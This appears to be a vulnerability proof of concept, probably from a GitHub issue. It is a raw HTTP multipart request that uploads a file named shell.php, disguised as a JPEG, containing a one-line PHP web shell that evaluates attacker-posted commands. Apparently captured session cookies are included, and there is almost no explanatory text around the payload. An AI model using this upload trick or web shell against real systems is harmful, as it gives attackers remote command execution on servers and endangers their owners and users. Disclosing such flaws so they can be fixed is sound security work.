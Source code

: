 ```
Cookie: auth=edit-admin%2Cedit-user%2Cedit-nav%2Cadd-media%2Cadd-article%2Cedit-article%2Cadd-page%2Cedit-page; remember_web_59ba36addc2b2f9401580f014c7f58ea4e30989d=eyJpdiI6IjB3SHUzbXBUU2QwYjNjTHFzV01kV2c9PSIsInZhbHVlIjoicDJIK2pYb3llMDhWakpkNE5YaU93cytCNWN1enRxQVM5VFdLeVp2TGhsb1FsMm1jdjZENGd0b0NWRVp2dUZjaHN5Ti80WjlDYXV3Zzdqekd4Mytsc29HbTJ2ZExhTHNMMzFNemxMVTJIb1BsR2Q3bVJud1FpbWxQMFBwdlpJWlpzUjJSZkJTMlRVVW54MGdFL2lLOU51NTZyNWVXZEVKZ2gxTFNldjlad0gwcEJ6NkNMVW5DVHNVZklPTkJGZ0JRWUF1K3VDS0YwRFRFVVlhYzFUQmV0SWtUbXVjS3piRGlaUHJ3Mk1jOWtSQT0iLCJtYWMiOiIwN2E3ZGNlZjUzMDdmYTVmZDQ5ZGFlZTcxOTNhMjM1YjNhMDEyOTAxYjU5NmM5OWRlMDBmNjViZjIxYmMyNjBmIiwidGFnIjoiIn0%3D; kirby_session=2235f6cec86c1b24149af3f060a76823c3272cf4%2B1723006482.1a1de7a51f8ab6bfcf02.145d491d0d8d703ee9a8612f6f68f537f6ff048c69d42df614e1776842417e2a; my_lang=ch; login_remember=0; pages_perPage=30; menupages_perPage=30; video_perPage=30; member_perPage=30; member_sort=id%20desc; language_perPage=30; language_sort=id%20DESC; counter_date=24; pdpa_consent=%7B%22accept%22%3A1%2C%22create_date%22%3A%222024-07-24%2014%3A06%3A05%22%7D; PHPSESSID=5ff3c5f83a25dd09cbedaba6ea1e3357
Priority: u=0

-----------------------------1766500401941422976504649212
Content-Disposition: form-data; name="path"


-----------------------------1766500401941422976504649212
Content-Disposition: form-data; name="upfile"; filename="shell.php"
Content-Type: image/jpeg

<?php eval($_POST["cmd"]);?>

-----------------------------1766500401941422976504649212--


```
<img width="1341" alt="image" src="https://github.com/user-attachments/assets/4403f685-34a6-42c1-ae4e-2636d1f5e111">


